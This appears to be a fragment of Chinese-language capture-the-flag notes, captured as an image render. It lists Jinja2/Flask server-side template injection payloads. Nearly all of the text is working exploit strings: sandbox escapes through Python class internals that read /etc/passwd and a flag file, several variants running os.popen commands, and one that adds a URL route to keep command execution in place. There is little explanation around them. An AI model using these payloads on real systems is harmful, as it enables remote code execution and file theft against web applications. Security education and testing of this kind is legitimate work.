 ```python
{% for x in [].__class__.__base__.__subclasses__() %}{% if x.__name__=='catch_warnings' %}{{ x.__init__.__globals__['__builtins__'].open('/app/flag', 'r').read() }}{% endif %}{% endfor %}

# _frozen_importlib_external.FileLoader 读取文件
 {% for x in [].__class__.__base__.__subclasses__() %} # {% for x in [].__class__.__bases__[0].__subclasses__() %}
    {% if 'FileLoader' in x.__name__ %}
        {{ x["get_data"](0,"/etc/passwd")}}
    {% endif %}
{% endfor %}

# 其他RCE
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{g.pop.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{lipsum.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{get_flashed_messages.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{application.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{joiner.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{namespace.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

{{url_for.__globals__.current_app.add_url_rule('/1333337',view_func=url_for.__globals__.__builtins__['__import__']('os').popen('ls').read)}}

```

#### 识别引擎

![image-20231128173610525](./assets/image-20231128173610525.png)
